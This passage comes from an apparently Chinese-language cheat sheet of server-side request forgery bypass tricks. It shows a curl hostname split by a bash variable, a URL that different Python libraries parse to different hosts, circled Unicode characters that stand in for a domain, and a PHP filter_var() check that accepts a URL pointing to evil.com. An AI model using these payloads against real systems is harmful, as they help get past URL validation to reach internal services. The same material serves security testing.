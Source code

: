 **使用bash变量进行绕过（curl only）**

```
curl -v "http://uu2fu3o$ssrf.com" $ssrf = ""
```

**使用技巧组合绕过**

```python
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
#该url地址具有&@#不同的特殊符号不同的Python网络库对这个URL的解析结果如下
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

**使用全角字符数字进行绕过**

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

**unicode**

某些语言像python3和.NET仍然支持unicode

**绕过filter_var() php函数**

```php
filter_var()是PHP中用于过滤和验证数据的函数之一，它可以对一个变量进行指定的过滤处理，并返回过滤后的结果。
filter_var()函数的基本语法如下：
filter_var($variable, $filter, $options);
其中：
$variable：需要过滤的变量。
$filter：指定的过滤器类型，可以是预定义的常量或者自定义的过滤器函数。
$options：可选参数，用于指定一些额外的选项，例如过滤器的参数等。
filter_var()函数支持多种不同的过滤器类型，包括过滤输入、过滤输出、过滤验证等多种类型。一些常用的过滤器类型和对应的预定义常量如下：
FILTER_VALIDATE_EMAIL：验证一个邮件地址。
FILTER_VALIDATE_IP：验证一个IP地址。
FILTER_VALIDATE_URL：验证一个URL。
FILTER_SANITIZE_STRING：去除字符串中的非法字符。
FILTER_SANITIZE_NUMBER_INT：去除字符串中的非数字字符。
FILTER_SANITIZE_SPECIAL_CHARS：将字符串中的HTML特殊字符转换为实体。
```

```php
<?php
$url = '0://evil.com:80;http://google.com:80/';
if (filter_var($url, FILTER_VALIDATE_URL)) {
    echo '这是一个合法的URL地址。';
} else {
    echo '这不是一个合法的URL地址。';
}
?>
//php filter_var.php
//这是一个合法的URL地址。
```

